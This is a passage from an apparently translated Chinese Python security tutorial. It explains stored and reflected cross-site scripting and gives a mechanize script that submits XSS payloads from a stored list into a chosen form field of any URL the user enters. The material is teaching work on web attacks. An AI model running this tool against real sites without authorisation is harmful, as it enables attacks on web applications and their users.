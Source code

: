 前面的步骤仅用于显示精心编制的查询是否成功。只有通过查看网站才能找到所需的结果。

# 学习跨站点脚本

在本节中，我们将讨论**跨站点脚本**（**XSS**攻击。XSS 攻击利用动态生成的网页中的漏洞进行攻击，当发送到用户浏览器进行呈现的动态内容中包含无效输入数据时，就会发生这种。

跨站点攻击有以下两种类型：

*   持久或存储的 XSS
*   非持久或反射 XSS

## 持久或存储的 XSS

在这种类型的攻击中，攻击者的输入存储在 web 服务器中。在一些网站上，你会看到评论栏和一个可以写评论的消息框。提交评论后，您的评论将显示在显示页面上。试着想想一个例子，你的评论成为 web 服务器 HTML 页面的一部分；这意味着您可以更改网页。如果没有适当的验证，那么您的恶意代码可能会存储在数据库中，当它反射回网页时，会产生不良效果。它被永久存储在数据库服务器中，这就是为什么它被称为持久性。

## 非持久或反射 XSS

在这种类型的攻击中，攻击者的输入不存储在数据库服务器中。响应以错误消息的形式返回。输入以 URL 或在搜索字段中给出。在本章中，我们将研究存储的 XSS。

现在让我们看看 XSS 攻击的代码。代码的逻辑是向网站发送漏洞攻击。在以下代码中，我们将攻击表单的一个字段：

```
import mechanize
import re 
import shelve
br = mechanize.Browser()
br.set_handle_robots( False )
url = raw_input("Enter URL ")
br.set_handle_equiv(True)
br.set_handle_gzip(True)
#br.set_handle_redirect(False)
br.set_handle_referer(True)
br.set_handle_robots(False)
br.open(url)
s = shelve.open("mohit.xss",writeback=True)
for form in br.forms():
  print form

att = raw_input("Enter the attack field ")
non = raw_input("Enter the normal field ")
br.select_form(nr=0)

p =0
flag = 'y'
while flag =="y":
  br.open(url)
  br.select_form(nr=0)
  br.form[non] = 'aaaaaaa'
  br.form[att] = s['xss'][p]
  print s['xss'][p]
  br.submit()
  ch = raw_input("Do you continue press y ")
  p = p+1
  flag = ch.lower()
```
